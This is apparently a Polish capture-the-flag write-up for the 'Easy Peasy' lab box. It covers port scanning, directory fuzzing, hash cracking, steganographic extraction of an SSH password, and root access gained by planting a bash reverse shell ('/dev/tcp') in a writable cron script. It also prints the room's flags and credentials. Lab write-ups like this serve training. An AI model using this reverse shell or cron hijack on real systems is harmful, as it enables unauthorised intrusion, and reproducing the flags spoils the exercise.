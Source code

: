# Easy Peasy

IP=10.10.158.179

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:41 EDT
Nmap scan report for 10.10.158.179
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 52.41 seconds
```

Przeprowadzamy bardziej szczegółowy skan:

```
sudo nmap -p 80,6498,65524 -sV -sC 10.10.158.179
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-09 05:43 EDT
Nmap scan report for 10.10.158.179
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Zostały wykryte 3 porty. Wersja nginx to 1.16.1, a na najwyższym porcie działa usługa Apache.

## Skanowanie

### Port 80

Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Jest to domyślna strona nginx. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179/FUZZ -c  -recursion
```

![Ffuf](img/Ffuf.JPG)

Program wykrył dwa katalogi. Przechodzimy do katalogu /hidden/whatever:

![What](img/What.JPG)

Znajdujemy tutaj fotografię. Sprawdzamy źródło strony:

![Base64](img/Base64.JPG)

Widzimy ukryty ciąg znaków zakodowany Base64, który dekodujemy przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag1](img/Flag1.JPG)

Odczytujemy pierwszą flagę:

```
flag{f1rs7_fl4g}
```

### Port 65524

Przechodzimy do sprawdzenia portu 65524. Jest to domyślna strona Apache'a:

![Apache](img/Apache.JPG)

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.158.179:65524/FUZZ -c -recursion
```

![Ffuf2](img/Ffuf2.JPG)

W pliku robots.txt w polu User-Agent znajdujemy ciekawy ciąg znaków przypominających hash:

![Robots](img/Robots.JPG)

```
a18672860d0510e5ab6699730763b250
```

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie MD5. Otrzymujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
flag{1m_s3c0nd_fl4g}
```

W źródle domyślnej strony Apache'a znajdujemy trzecią flagę oraz pewną ukrytą notkę:

![Flag3](img/Flag3.JPG)

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

![Hidden](img/Hidden.JPG)

```
ObsJmP173N2X6dOrAgEAL0Vu
```

Dekodujemy ciąg znaków przy pomocy [CyberChef'a](https://gchq.github.io/CyberChef/):

![Chef](img/Chef.JPG)

```
/n0th1ng3ls3m4tt3r
```

Przechodzimy do ukrytej lokalizacji, która zawiera dwa zdjęcia:

![Photo](img/Photo.JPG)

W źródle strony znowu znajdujemy ciąg znaków przypominających hash:

![Hash](img/Hash.JPG)

Korzystamy z [dekodera online](https://md5hashing.net/), aby złamać hash'a w formacie GOST. Otrzymujemy hasło:

![Pass](img/Pass.JPG)

```
mypasswordforthatjob
```

Pobieramy zdjęcia i za pomocą narzędzia steghide, wydobywamy ukryte informacje przy użyciu zdobytego hasła:

![Steg](img/Steg.JPG)

```
steghide --extract -sf binarycodepixabay.jpg 
```

Korzystając z [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło do serwisu SSH:

![Binary](img/Binary.JPG)

```
iconvertedmypasswordtobinary
```

### Port 6498

Logujemy się do serwisu SSH przy pomocy zdobytych danych:

```
boring:iconvertedmypasswordtobinary
```

W katalogu domowym użytkownika boring znajdujemy czwartą flagę, którą dekoduejmy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):

![Flag4](img/Flag4.JPG)

```
synt{a0jvgf33zfa0ez4y}
```

![ROT13](img/ROT13.JPG)

```
flag{n0wits33msn0rm4l}
```

Przechodzimy do katalogu /var/www, w którym znajduje się plik .mysecretcronjob.sh:

![Cron](img/Cron.JPG)

Plik został stworzony przez użytkownika boring, zatem możemy go edytować przy pomocy komendy nano ustawiając reverse shell'a:

![Nano](img/Nano.JPG)

```
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

Ustawiamy nasłuchiwanie na wybranym porcie i po chwili uzyskujemy dostęp do serwera jako użytkownik root:

![Root](img/Root.JPG)

W katalogu domowym użytkownika root znajdujemy piątą flagę:

![Flag5](img/Flag5.JPG)

```
flag{63a9f0ea7bb98050796b649e85481845}
```

Do zobaczenia na kolejnych CTF-ach!
